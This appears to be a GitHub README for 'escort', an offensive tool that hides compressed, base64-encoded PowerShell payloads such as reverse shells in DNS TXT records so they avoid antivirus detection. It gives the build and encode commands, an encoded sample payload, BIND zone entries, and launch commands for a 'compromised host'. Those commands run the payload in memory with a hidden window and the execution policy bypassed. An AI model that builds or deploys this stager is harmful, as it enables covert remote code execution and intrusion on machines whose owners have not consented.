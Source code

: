 # Escort

![](./escort.jpg)

`escort` is an experiment at using DNS TXT records for transmitting malicious payloads to bypass Anti Virus detection. It currently only supports PowerShell payloads (ie reverse shells with powershell) however ideally I will expand this to other potential payload systems. It consists of taking your payload, compressing with DEFLATE and base64 encoding it. If the resultant payload is larger than 255 characters (the maximum limit for DNS TXT records) the payload is broken up into 255 character (or less) segments. When the PowerShell script is ran it will reconstruct the base64 encoded payload, decompress it, and then execute it with the `Invoke-Expression` cmdlet to avoid writing the script to disk.

# Usage

To showcase usage an example payload is included in `payload.txt`

```shell
$> git clone https://github.com/bonedaddy/escort
$> cd escort
$> go build
$> ./escort --input.file payload.txt compress
TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnIY7bDZ # part 1
Z4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8= # part 2
```

You then want to add these values to your DNS host in order. For example in BIND zone files you would add this as follows:

```bind
$ORIGIN example.org.
@	3600 IN	SOA sns.dns.icann.org. noc.dns.icann.org. (
				2017042745 ; serial
				7200       ; refresh (2 hours)
				3600       ; retry (1 hour)
				1209600    ; expire (2 weeks)
				3600       ; minimum (1 hour)
				)

	3600 IN NS a.iana-servers.net.
	3600 IN NS b.iana-servers.net.

test4   IN TXT   "TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnIY7bDZ"
test4   IN TXT   "Z4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8="
```

On the compromised host you would run `escort.ps1` using one of the following:

```
$> .\escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
$> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
```

This will query the host `test4.example.org` for TXT records and use that to construct the payload.


# Caveats

* Due to the usage of DEFLATE the powershell script you are compressing and base64 encoding must be a minimum of 45 characters in length, otherwise you should skip the deflate process as this will just increase the size of your payload, however this will require modifying `escort.ps1` as it expects a base64 encoded DEFLATE compressed payload.
* I haven't actually tested if this evades antivirus detection yet, but that will be done shortly.

# Notes

Brotli offers the best compression of data, however it doesn't appear to be widely supported on Windows unless .NET version >=4.5 is installed so it is temporarily not being used.